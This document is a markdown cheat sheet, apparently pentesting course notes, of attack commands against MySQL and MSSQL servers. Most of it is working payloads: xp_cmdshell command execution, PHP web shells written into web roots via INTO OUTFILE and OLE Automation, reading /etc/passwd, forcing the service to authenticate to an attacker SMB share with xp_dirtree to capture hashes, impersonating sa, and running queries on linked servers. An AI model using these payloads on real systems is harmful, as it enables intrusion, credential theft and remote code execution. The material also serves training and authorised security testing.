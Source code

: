 ## Enumeration

Refer to Service enumeration.

## Protocol Specific Attacks

### Read/Change Database

MySQL
```bash
## MySQl - Connect to server
mysql -u julio -pPassword123 -h 10.129.20.13

## Sqlcmd - Connect to server
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

MSSQL
```bash
## sqsh - Connect to server
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

## When using Windows Authentication, we need to specify the domain name or the hostname of the target machine
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h

## Mssql client - Connect to server
mssqlclient.py -p 1433 julio@10.129.203.7 

mssqlclient.py -p 1433 julio@10.129.203.7 -windows-auth
```

### SQL Default Databases

MySQL default system schemas/databases:

- __mysql__ - is the system database that contains tables that store information required by the MySQL server
- __information_schema__ - provides access to database metadata
- __performance_schema__ - is a feature for monitoring MySQL Server execution at a low level
- __sys__ - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

MSSQL default system schemas/databases:

- __master__ - keeps the information for an instance of SQL Server.
- __msdb__ - used by SQL Server Agent.
- __model__ - a template database copied for each new database.
- __resource__ - a read-only database that keeps system objects visible in every database on the server in sys schema.
- __tempdb__ - keeps temporary objects for SQL queries.

### Execute Commands

MSSQL has a extended stored procedures called xp_cmdshell which allow us to execute system commands using SQL. 

```bash
## Sample command
xp_cmdshell 'whoami'
```

### MySQL Attacks

```bash
## Write local file
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';    # Given MySQL operates on PHP-based srv

## Secure file privilege - Read on the diff possible settings
show variables like "secure_file_priv";

## Read local file
select LOAD_FILE("/etc/passwd");
```

### MSSQL Attacks

To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file.

```bash
## Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
sp_configure 'Ole Automation Procedures', 1
```

```bash
## Create file
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

```bash
## Read local files
SELECT * FROM OPENROWSET(BULK ''C:/Windows/System32/drivers/etc/hosts'', SINGLE_CLOB) AS Contents
```

```bash
## Capture MSSQL Service Hash
## To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries
EXEC master..xp_dirtree '\\10.10.110.17\share\'
EXEC master..xp_subdirs '\\10.10.110.17\share\'
```

```bash
## Identify users that we can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'

## Verify current user and role
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

## Impersonate SA user
## Recommended to run EXECUTE AS LOGIN within the master DB
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

```bash
## Communicate with other databases
SELECT srvname, isremote FROM sysservers

## Send pass-through commands to linked servers (0)
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
```

